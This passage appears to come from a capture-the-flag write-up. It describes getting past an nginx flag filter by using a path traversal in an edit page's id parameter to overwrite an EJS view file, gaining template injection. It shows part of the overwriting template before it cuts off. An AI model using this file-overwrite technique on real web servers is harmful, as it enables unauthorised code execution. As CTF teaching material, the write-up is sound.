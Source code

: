 		sub_filter 'placeholder_for_flag' 'oof, that was close, glad i was here to save the day';

		sub_filter_once off;

		proxy_pass http://localhost:3000;

		}

	}
	

  

Oops, Flag is being replaced `# Replace the flag so nobody steals it!`

`sub_filter 'placeholder_for_flag' 'oof, that was close, glad i was here to save the day';`

  

so we can't continue locally

Note: Don't forget we have a path traversal in edit page via id parameter.

  
while `writeFileSyncwhich()`allows us to re-write the file content to whatever we want so why we don't get a Nice RCE :D



via SSTI (Server Side Template Injection) we can determine the vulnerability by following this endpoint `?id=../views/article.ejs`

  

![enter image description here](https://media.discordapp.net/attachments/1025465085117866045/1025730056762445904/phishing_email.png)

actually i forgot to take a screenshot of the SSTI but trust me it is vulnerable :DD
  
  let's continue after we determined the vuln exists next move is to get RCE 



but instead of this we will force the server to print the flag in all `articles pages`  


by overriding the `article file` with the following code

	
	<!doctype  html>

		<html>

		<%- include('head.ejs') %>

		<body  class="text-dark bg-light">

		<%- include('navbar.ejs') %>

		<div  class="container my-5 px-5">

		<div  class="card mb-4">

		<div  class="card-header">

		<%= article.date %>

		</div>
